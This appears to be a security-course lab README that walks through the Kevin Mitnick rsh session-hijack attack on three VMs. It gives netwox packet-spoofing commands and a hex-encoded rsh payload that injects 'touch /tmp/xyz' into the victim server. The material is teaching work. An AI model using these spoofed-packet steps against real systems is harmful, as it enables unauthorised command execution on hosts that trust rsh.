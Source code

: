## The Kevin Mitnick Attack 

**WARNING**: This is one of the most complicated labs, if you understand this lab and know what you are doing, you may be able to finish this lab in 20 minutes, if you don't really understand this lab and don't really know what you are doing, you may spend hours and still don't succeed. Be very very careful, make sure the command is correct, before you press enter to run the command, is the key to the success of this lab.

### Requirements

In this lab, we will demonstrate the Kevin Mitnick attack - a special case of the TCP session hijack attack. Instead of hijacking an existing TCP connection between victims A and B, the Mitnick attack creates a TCP connection between A and B first on their behalf, and then naturally hijacks the connection. Specifically, Kevin Mitnick created and hijacked rsh connections. In this lab, the attacker's goal is to create a file **/tmp/xyz** on the victim server machine.

### Setup

3 Linux VMs. VM1 as the victim client; VM2 as the victim server; VM3 as the attacker. The 3 VMs reside in the same network - in the original Kevin Mitnick attack, the attacker's machine was not in the same network. Back then TCP sequence numbers were easily predictable, today it is not. To simulate the attack and simplify our task, we assume we still know the sequence numbers - we will, in the lab, obtain the sequence numbers from wireshark. We will then use "netwox 40" to perform packet spoofing. In the remaining part of this README, we assume the victim client's IP address is 172.16.77.128, and the victim server's IP address is 172.16.77.129.

Background knowledge: In rsh, two TCP connections are needed. One for normal communication, the other for sending error messages. In the first connection, the client port must be 1023, and the server port must be 514. In the second connection, the server port must be 1023, but the client port can be anything - in this lab, we will choose 9090.

### Preparation steps: 

step 1. installing rsh on client, server, and the attacker's machine. Run the following two commands on all 3 VMs:

```console
# sudo apt-get install rsh-redone-client
# sudo apt-get install rsh-redone-server
```

step 2. configure rsh on the victim server machine.

```console
$ touch .rhosts
$ echo [victim client’s IP address] > .rhosts (replace "victim client's IP address" with the actual IP address)
$ chmod 644 .rhosts
```

These commands look like this:
![alt text](lab-mitnick-rsh-config.png "rsh works")

If the above configuration is correct, you should be able to run the follow command on the victim client machine, and it will show you the current date information.

```console
# rsh [victim server’s IP] date
```

Like this:
![alt text](lab-mitnick-rsh-good.png "rsh works")

As a comparison, if you run the same command from the attacker's machine, you will get an error like this:
![alt text](lab-mitnick-rsh-bad.png "rsh doesn't work")

step 3. simulating the syn flooding attack.

3.1: on the victim server, run:

```console
# sudo arp -s [victim client’s IP] [victim client’s MAC]
```

This step is needed so that the server remembers the MAC address of the client, which is needed for the server to send packets to the client.

This screenshot shows the command and how to find the victim client's MAC address:
![alt text](lab-mitnick-arp.png "setting up arp cache")

3.2: shutdown the victim client VM - we do so to simulate the situation when the client is under serious syn flooding attack and can't respond. **Explanation**: why do we want the server to remember the MAC address of the client? Because computers in the same network use MAC addresses, instead of IP addresses, to communicate. And once we shutdown the victim client, if the server doesn't know the victim client's MAC address, the server simply won't send any packet to the client; but our attack won't be successful if the server doesn't send any packet to the client.

This screenshot shows the command to shutdown the victim client VM:
![alt text](lab-mitnick-shutdown.png "shutting down victim client VM")

step 4. in the attacking steps (next section), right after step 6.1, we need to run step 6.2 as soon as possible, otherwise the server will RESET the 1st TCP connection; similarly, right after step 6.3, we need to run step 7.1 as soon as possible, otherwise the server will RESET the 2nd TCP connection. Therefore, writing a sniffing-and-spoofing script would be the better way to perform this attack.

Alternatively, we can run these two commands on the server so that it does not RESET that fast.

```console
# sudo sysctl -w net.ipv4.tcp_syn_retries=50
# sudo sysctl -w net.ipv4.tcp_synack_retries=50
```

This screenshot shows these two commands:
![alt text](lab-mitnick-retries.png "changing retry limits")

**Explanation**: these two commands are saying, do not reset the tcp connection, unless one party of the connection has tried *syn* more than 50 times; do not reset the tcp connection, unless one party of the connection has tried *syn-ack* more than 50 times.

step 5. turn on wireshark on the attacker's VM and start capturing. also, sanity check - make sure there is no such a file called **/tmp/xyz** on the server machine - as our ultimate goal in this lab is to create such a file.

This screenshot shows, at this moment, there is no such a file called **/tmp/xyz** on the **server** machine.
![alt text](lab-mitnick-sanity-check.png "sanity check")

### Attacking steps:

All the attacking steps are performed on the attacker's machine. **WARNING**: any moment during the attacking steps, you notice a RESET packet in wireshark, you know you are on the wrong track, and you need to reboot the victim server VM and go back to step 3 - redo step 3, step 4, and then you can continue from step 6.

step 6. create the first TCP connection. 

step 6.1: On the attacker's VM, send a spoofed SYN packet to the victim server.

```console
# sudo netwox 40 --tcp-syn --ip4-src 172.16.77.128 --ip4-dst 172.16.77.129 --tcp-src 1023 --tcp-dst 514
```

This screenshot shows the command:
![alt text](lab-mitnick-packet1.png "first packet")

step 6.2: right after the above command, netwox would show us the sequence number of this SYN packet, let's say it's x. Then in wireshark, identify the SYN-ACK packet coming from the victim server to the victim client and find out its sequence number, let's say it's y. Now we send the ACK packet to complete the TCP 3-way handshake.

```console
# sudo netwox 40 --tcp-ack --ip4-src 172.16.77.128 --ip4-dst 172.16.77.129 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1
```

This screenshot shows the command:
![alt text](lab-mitnick-packet2.png "second packet")

This screenshot shows x is 2247827088, and thus x+1 is 2247827089.
![alt text](lab-mitnick-first-syn.png "first syn packet")

This screenshot shows y is 734062308, and thus y+1 is 734062309.
![alt text](lab-mitnick-first-syn-ack.png "first syn ack packet")

step 6.3: send one ACK packet to the server. This packet carries the command we want to run:

```console
# sudo netwox 40 --tcp-ack --ip4-src 172.16.77.128 --ip4-dst 172.16.77.129 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1 --tcp-data "393039300073656564007365656400746f756368202f746d702f78797a00" 
```

This screenshot shows the command:
![alt text](lab-mitnick-packet3.png "third packet")

note: step 6.2 and step 6.3 are the same command, except that --tcp-data part.

**Explanation**: why the tcp data is "393039300073656564007365656400746f756368202f746d702f78797a00"? Because in netwox 40, --tcp-data specifies the data you want to transfer, and in our case, we want to transfer an rsh command "touch /tmp/xyz". In rsh, its data's structure is:

[port number]\x00[user_id_client]\x00[user_id_server]\x00[your command]\x00

thus, in order to inject a command "touch /tmp/xyz", the data we should inject is "9090\x00seed\x00seed\x00touch /tmp/xyz\x00", and then we need to convert it into hex numbers:

```console
$ python
>>> "9090\x00seed\x00seed\x00touch /tmp/xyz\x00".encode("hex")
'393039300073656564007365656400746f756368202f746d702f78797a00'
```

step 7. create the second TCP connection. After the above ACK packet, the server would automatically send a SYN packet to the client so as to establish the 2nd TCP connection. We just need to respond a fake SYN-ACK packet. Let's say the sequence number of this SYN packet is z, then in our SYN-ACK packet, the ack num needs to be z+1, the sequence number can be anything.

step 7.1: 

```console
# sudo netwox 40 --tcp-syn --tcp-ack --ip4-src 172.16.77.128 --ip4-dst 172.16.77.129 --tcp-src 9090 --tcp-dst 1023 --tcp-acknum z+1
```

This screenshot shows the command:
![alt text](lab-mitnick-packet4.png "fourth packet")

This screenshot shows that z is 703071262, and thus z+1 is 703071263.
![alt text](lab-mitnick-second-syn.png "second syn packet")

### Verification steps:

step 8. on the victim's server machine, see if **/tmp/xyz** is created.

![alt text](lab-mitnick-success.png "lab success")

The above screenshot shows the file **/tmp/xyz** is now existing - this indicates that the attack is successful, and this concludes the lab.
